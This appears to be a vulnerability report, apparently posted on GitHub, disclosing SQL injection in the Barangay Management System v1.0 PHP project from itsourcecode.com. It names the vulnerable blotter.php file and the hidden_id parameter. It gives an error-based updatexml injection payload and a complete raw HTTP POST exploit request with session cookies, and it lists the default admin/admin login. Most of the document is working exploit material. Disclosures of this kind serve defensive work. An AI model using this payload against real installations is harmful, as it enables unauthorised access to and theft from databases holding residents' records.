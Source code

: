 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/blotter/blotter.php

Vulnerability location: /bmis/pages/blotter/blotter.php,hidden_id

[+] Payload: hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id

```sql
POST /bmis/pages/blotter/blotter.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/blotter/blotter.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 329

hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&txt_edit_cname=&txt_edit_cage=1&txt_edit_cadd=1&txt_edit_ccontact=1&txt_edit_pname=&txt_edit_page=1&txt_edit_padd=1&txt_edit_pcontact=1&txt_edit_complaint=1&ddl_edit_acttaken=1st+Option&ddl_edit_stat=Solved&txt_edit_location=1&btn_save=Save&table_length=10
```

![image](https://user-images.githubusercontent.com/54017627/173301744-520c64e5-2e12-4849-b5b9-28f435d39a41.png)

